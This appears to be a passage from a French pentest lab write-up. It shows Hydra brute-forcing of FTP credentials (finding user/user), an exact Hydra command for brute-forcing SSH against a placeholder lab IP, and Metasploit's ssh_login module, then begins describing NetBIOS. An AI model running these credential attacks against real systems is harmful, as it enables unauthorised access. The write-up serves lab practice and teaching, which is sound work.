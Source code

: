 On peut aussi tout simplement <u>brutforcer</u> avec <b>Hydra</b> le mot de passe de l'utilisateur ftp.
On utilise un dictionnaire de mots de passes et un dictionnaire de users.
On obtient :

USER = user

PASS = user
![ftp_login](<assets/ftp_login.png>)

## 2. Exploiting SSH

Pour exploiter le SSH on peut aussi utiliser Hydra. 

    hydra -L /home/kali/FTP_hack/usernames.txt -P /home/kali/FTP_hack/passwords.txt <IP_VISMIN> ssh -V

On peut aussi utiliser metasploit en utilisant le module ssh_login.

    use auxiliary/scanner/ssh/ssh_login



## 3. Netbios-SSN (port 139)
Le Network Basic Input/Output System (NetBIOS) fournit des services liés à la couche de session du modèle OSI, permettant aux applications sur des ordinateurs distincts de communiquer via un réseau local.

NetBIOS facilite la communication entre les ordinateurs au sein d'un réseau en fournissant des fonctionnalités telles que l'identification des noms d'ordinateurs, la résolution des noms d'hôtes en adresses IP, la gestion des sessions et la transmission de données entre les applications.